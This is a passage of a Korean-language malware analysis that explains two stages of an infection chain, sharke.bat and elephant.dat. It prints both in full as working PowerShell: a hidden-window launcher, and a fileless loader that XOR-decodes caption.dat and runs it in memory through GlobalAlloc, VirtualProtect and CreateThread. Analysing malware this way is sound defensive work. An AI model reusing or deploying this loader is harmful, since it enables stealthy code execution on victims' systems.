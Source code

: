     - 현재 작업 경로를 확인하여, 보안 경로인 `System32`나 `Program Files`가 포함된 경우 일반적으로 낮은 권한의 사용자 디렉토리인 `%temp%`로 경로를 변경

### sharke.bat

임시 디렉토리(`$env:temp`)에 위치한 `elephant.dat` 파일을 읽어오는 작업을 수행한다. 파일을 바이트 배열로 읽은 후, 이를 UTF-8 형식으로 문자열로 변환하고, 변환된 문자열은 PowerShell 스크립트로 처리되어 실행 가능한 `scriptblock` 객체로 변환된다. `Invoke-Command` 명령을 사용해 이 스크립트를 실행하는데 일련의 과정은 **숨겨진 상태에서** 악성 PowerShell 스크립트를 실행하기 위한 것으로, `elephant.dat`에 포함된 코드가 시스템에서 실행되도록 한다.

```powershell
start /min C:\Windows\SysWow64\WindowsPowerShell\v1.0\powershell.exe -windowstyle hidden "$stringPath=$env:temp+'\'+'elephant.dat';$stringByte = Get-Content -path $stringPath -encoding byte;$string = [System.Text.Encoding]::UTF8.GetString($stringByte);$scriptBlock = [scriptblock]::Create($string);Invoke-Command $scriptBlock;"
```

- start /min
    - 명령 프롬프트에서 프로그램을 최소화된 상태로 실행하도록 함
    - 여기서는 powershell.exe를 최소화된 창으로 실행함
- -windowstyle hidden
    - PowerShell 창을 숨긴 상태로 실행하도록 지정
    - 사용자는 실행 중인 PowerShell 창을 보지 못하며, 악성코드의 실행을 눈치채기 어렵게 만듦
- [scriptblock]::Create, Invoke-Command
    - 암호화된 명령어를 실행하는 방식은 악성코드에서 자주 사용됨

### elephant.dat

`caption.dat` 파일을 읽고, 해당 파일의 내용을 XOR 암호화 방식으로 복호화한 후, 이를 메모리에 로드하여 실행한다. 먼저, `caption.dat` 파일을 바이트 배열로 읽고, 바이트마다 지정된 값을 XOR 연산을 통해 복호화한다. 복호화된 데이터를 새로운 바이트 배열에 저장한 후, `.NET`의 `GlobalAlloc` 함수를 사용해 메모리 공간을 할당한다.

그 후, `VirtualProtect` 함수를 사용하여 메모리 보호 속성을 설정하고, 복호화된 데이터 바이트를 메모리에 기록한다. `CreateThread` 함수로 새로운 스레드를 생성하여 복호화된 데이터를 실행하고, `WaitForSingleObject`를 사용해 해당 스레드의 실행이 완료될 때까지 대기한다.

메모리에서 악성 코드를 실행하기 위해 설계된 것으로, 디스크에 악성 파일을 남기지 않고 메모리에서 실행되는 파일리스 방식이다.

```powershell
$exePath=$env:temp+'\caption.dat';$exeFile = Get-Content -path $exePath -encoding byte;$len=$exeFile.count;$newExeFile = New-Object Byte[] $len;$xK='d';for($i=0;$i -lt $len;$i++) {$newExeFile[$i] = $exeFile[$i] -bxor $xk[0]}; [Net.ServicePointManager]::SecurityProtocol = [Enum]::ToObject([Net.SecurityProtocolType], 3072);$k1123 = [System.Text.Encoding]::UTF8.GetString(34) + 'kernel32.dll' + [System.Text.Encoding]::UTF8.GetString(34);$a90234s = '[DllImport(' + $k1123 + ')]public static extern IntPtr GlobalAlloc(uint b,uint c);';$b = Add-Type -MemberDefinition $a90234s  -Name 'AAA' -PassThru;$d3s9sdf = '[DllImport(' + $k1123 + ')]public static extern bool VirtualProtect(IntPtr a,uint b,uint c,out IntPtr d);';$a90234sb = Add-Type -MemberDefinition $d3s9sdf -Name 'AAB' -PassThru;$b3s9s03sfse = '[DllImport(' + $k1123 + ')]public static extern IntPtr CreateThread(IntPtr a,uint b,IntPtr c,IntPtr d,uint e,IntPtr f);';$cake3sd23 = Add-Type -MemberDefinition $b3s9s03sfse  -Name 'BBB' -PassThru;$dtts9s03sd23 = '[DllImport(' + $k1123 + ')]public static extern IntPtr WaitForSingleObject(IntPtr a,uint b);';$fried3sd23 = Add-Type -MemberDefinition $dtts9s03sd23 -Name 'DDD' -PassThru;$byteCount = $newExeFile.Length;$buffer = $b::GlobalAlloc(0x0040, $byteCount + 0x100);$old = 0;$a90234sb::VirtualProtect($buffer, $byteCount + 0x100, 0x40, [ref]$old); for($i = 0;$i -lt $byteCount;$i++) { [System.Runtime.InteropServices.Marshal]::WriteByte($buffer, $i, $newExeFile[$i]); };$handle = $cake3sd23::CreateThread(0, 0, $buffer, 0, 0, 0);$fried3sd23::WaitForSingleObject($handle, 500 * 1000);
```

